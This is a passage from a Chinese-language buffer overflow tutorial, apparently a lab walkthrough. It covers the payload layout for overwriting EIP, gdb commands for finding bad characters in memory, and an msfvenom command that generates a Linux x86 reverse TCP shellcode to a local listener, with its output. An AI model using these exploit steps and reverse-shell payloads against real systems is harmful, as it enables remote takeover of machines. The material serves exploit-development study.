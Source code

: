当前，我们的输入布局如下：

| **CHARS**  |       **256**        |
| :--------: | :------------------: |
|  **EIP**   |        **4**         |
| **Buffer** | **1036 - 256 = 780** |
进入`gdb`，给我们的`dangerous`函数打断点

```shell
(gdb) disas main
(gdb) break dangerous
```

输入我们构想的载荷：

```shell
run $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x55"*780 + b"\x00\x01\x02\x03\x04\x05...xfb\xfc\xfd\xfe\xff" + b"\x66"*4 )')
```

检查内存：

```
x/2000xb $esp+500
```

这是一个在 GDB (GNU Debugger) 中用于**检查内存**的命令。
- **`x`**: 这是命令本身，表示 "examine"（检查）。
- **`/`**: 这是分隔符，用于分隔 `x` 命令和后面的格式规范。
- **`2000`**: 这是要检查的**数量**，表示要显示多少个单位的内容。这里是 2000 个单位。
- **`x`**: 这是要显示的**格式**，`x` 表示以**十六进制**格式显示每个单位。
- **`b`**: 这是检查的**大小单位**，`b` 表示以**字节**（1 个字节）为单位。
所以，`x/2000xb` 连起来的意思就是：**从指定地址开始，以每字节为单位，按十六进制格式，显示接下来的 2000 个字节的内容。**
- **`$esp`**: 这是**栈指针寄存器**（在 32 位系统上）。它指向当前函数栈帧的栈顶（即最低地址）。
- **`+500`**: 表示在 `$esp` 寄存器当前指向的内存地址上，**增加 500 个字节**作为开始检查的地址。

**因此，完整的命令 `x/2000xb $esp+500` 的意思是：**

**“检查从栈指针 `$esp` 寄存器当前指向的地址向上偏移 500 字节处开始的内存区域，显示接下来的 2000 个字节的内容，并将每个字节的值以十六进制形式展示。”**

- 接下来你需要找到`\x55`结束、`\x00`开始的地方。当然，你可能会发现没有`\x00`，直接从`\x01`开始。**这并不绝对**。但是，你需要从头找到尾，找到以下两种情况。
	- 缺失：如果缺少了某一项，比如缺少了`\x00`，那么你需要去掉`CHARS`里的这一项，并把长度`256`减去`1`，变为`255`。
	- 替换：本应是其他项的，但是却变成了错误的项。比如本应是`\x09`的位置上出现了`\x00`，那么你也需要去掉`CHARS`里的这一项，并把长度`256`减去`1`，变为`255`。
	- 当然，如果上面的同时存在，那么长度就是`254`。如果还有其他，则需要继续删减。


## Shellcode的生成

我们需要给`msfvenom`指出坏字符有哪些。每个人的不一致，所以你需要改成自己的。
```shell
msfvenom -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=31337 --format c --arch x86 --platform linux --bad-chars "\x00\x0a --out shellcode

Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of c file: 425 bytes
Saved as: shellcode

```
